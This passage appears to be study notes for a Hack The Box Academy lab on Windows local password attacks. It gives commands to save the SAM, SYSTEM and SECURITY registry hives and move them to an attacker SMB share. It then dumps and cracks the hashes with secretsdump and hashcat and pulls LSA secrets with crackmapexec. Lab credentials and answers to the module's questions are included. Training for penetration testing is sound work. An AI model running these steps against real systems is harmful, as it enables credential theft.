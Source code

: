 `mysql -u superdba -p admin`

* works...

Answer: <mark style="color:green;">**superdba:admin**</mark>

## Win Local PW Attacks

### Attacking SAM

* Copying SAM Registry Hives (hklm/sam, hklm/system, khlm/security)
* Creating backups of Hives using reg.exe
  * `reg.exe save hklm/sam C:/sam.save`
* Creating a Share w smbserver.py
  * `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/`
* Moving Hive copies to Share
  * `move sam.save \10.10.15.16\CompData`
* Dumping Hashes w Impackets secretsdump.py
  * `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`
* Cracking hashes w Hashcat
  * `sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt`
* Remote Dumping & LSA Secrets
  * `crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa`
  * `crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam`

#### Questions

**Where is the SAM database located in the Windows registry? (Format: \*\*\*\*\*\*\*)**

<mark style="color:green;">**hklm\sam**</mark>

**Apply the concepts taught in this section to obtain the password to the ITbackdoor user account on the target. Submit the clear-text password as the answer.**

Remmina -> Connect using RDP to Win machine

`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/zihuatanejo`

`move sam.save \\10.10.15.16\CompData`

`move security.save \\10.10.15.16\CompData`

`move system.save \\10.10.15.16\CompData`

`python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`

* ![](<.gitbook/assets/image (36).png>)
